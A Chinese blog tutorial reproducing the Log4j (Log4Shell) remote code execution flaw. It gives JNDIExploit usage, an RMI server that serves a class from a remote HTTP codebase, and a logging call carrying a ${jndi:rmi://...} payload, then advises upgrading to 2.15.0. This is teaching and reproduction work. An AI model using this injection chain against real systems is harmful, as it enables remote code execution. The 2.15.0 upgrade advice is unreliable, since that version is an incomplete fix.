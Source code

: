 ﻿@[TOC](文章目录)

### 一、问题

在`Log4j2.x<=2.14.1`版本，攻击者可通过构造恶意请求，触发远程代码执行漏洞
![](./images/20230912143930540.png)


### 二、Log4j远程代码执行漏洞复现

#### 1、下载JNDIExploit

> 一款用于 JNDI注入 利用的工具

[https://github.com/feihong-cs/JNDIExploit](https://github.com/feihong-cs/JNDIExploit)

运行

```shell
java -jar JNDIExploit-1.2-SNAPSHOT.jar -i ip
```

![](./images/20230912143931159.png)

#### 2、远程执行程序 -- AppRun

> tips: 自行编写相应逻辑 `^_^`

```java
public class AppRun {

    static {
        System.out.println("hello world...");
    }

}
```

#### 3、编译AppRun放入nginx服务器根目录下

```shell
javac AppRun.java
```

将编译好的`AppRun.class`放入nginx服务器根目录下
![](./images/20230912143931268.png)

#### 4、编写一个RMI服务端

```java
public class RmiServer {

    public static void main(String[] args) {
        System.setProperty("com.sun.jndi.rmi.object.trustURLCodebase", "true");
        System.setProperty("com.sun.jndi.ldap.object.trustURLCodebase", "true");
        try {
            LocateRegistry.createRegistry(1099);
            Registry registry = LocateRegistry.getRegistry();
            // 本地执行方式
//            Reference reference = new Reference("AppRun", "AppRun", null);
            // tips:如果是远程执行，需要将`AppRun`编译后的字节码文件放到nginx html访问目录下，再通过如下方式执行程序
            Reference reference = new Reference("AppRun", "AppRun", "http://www.zhengqingya.com:80/");
            registry.bind("app", new ReferenceWrapper(reference));
            System.out.println("Create app registry on port 1099...");
        } catch (Exception e) {
            e.printStackTrace();
        }
    }

}
```

运行`RmiServer`

#### 5、模拟一个用log4j运行的程序

模拟输出特定值，实际上可在前端页面上的输入框中输入这些值，只要程序后台通过log4j打印这些值即会触发远程代码`AppRun`执行相应逻辑

```java
public class Log4j {
    
    private static final Logger log = LogManager.getLogger(Log4j.class);

    public static void main(String[] args) {
        System.setProperty("com.sun.jndi.rmi.object.trustURLCodebase", "true");
        System.setProperty("com.sun.jndi.ldap.object.trustURLCodebase", "true");
        log.error("test1: ${java:os}");
        log.error("test2: ${jndi:rmi://192.168.101.88:1099/app}");
    }

}
```

运行`Log4j`，即可查看效果
![](./images/20230912143931368.png)

### 三、解决

升级log4j版本至`2.15.0`

```xml
<!-- https://mvnrepository.com/artifact/org.apache.logging.log4j/log4j-core -->
<dependency>
    <groupId>org.apache.logging.log4j</groupId>
    <artifactId>log4j-core</artifactId>
    <version>2.15.0</version>
</dependency>
<!-- https://mvnrepository.com/artifact/org.apache.logging.log4j/log4j-api -->
<dependency>
    <groupId>org.apache.logging.log4j</groupId>
    <artifactId>log4j-api</artifactId>
    <version>2.15.0</version>
</dependency>
```


### 四、本文案例demo源码

[https://gitee.com/zhengqingya/java-workspace](https://gitee.com/zhengqingya/java-workspace)


---

> 今日分享语句：
> 就算学习和生活再艰难，也要一边痛着，一边笑着，给生活一张漂亮的脸。
